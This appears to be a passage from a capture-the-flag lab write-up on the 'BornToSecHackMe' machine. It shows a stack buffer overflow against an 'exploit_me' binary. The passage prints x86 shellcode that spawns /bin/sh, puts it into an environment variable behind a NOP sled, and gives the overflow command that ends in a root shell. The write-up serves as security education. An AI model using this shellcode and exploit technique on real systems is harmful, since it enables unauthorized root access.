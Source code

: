 # shellcode

Another option we can use in case of buffer overflows is a shellcode attack. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://0xrick.github.io/binary-exploitation/bof5/):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
zaz@BornToSecHackMe:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
zaz@BornToSecHackMe:~$ cc addr.c -o addr
zaz@BornToSecHackMe:~$ ./addr
SCODE set at 0xbffff87f
```

# exploit
The exploit is constructed using the shellcode address and offset values to cause an overflow.
``` shell
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "F"*140 + "\xbf\xff\xf8\x7f"[::-1]')
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF���
$ whoami
root
```
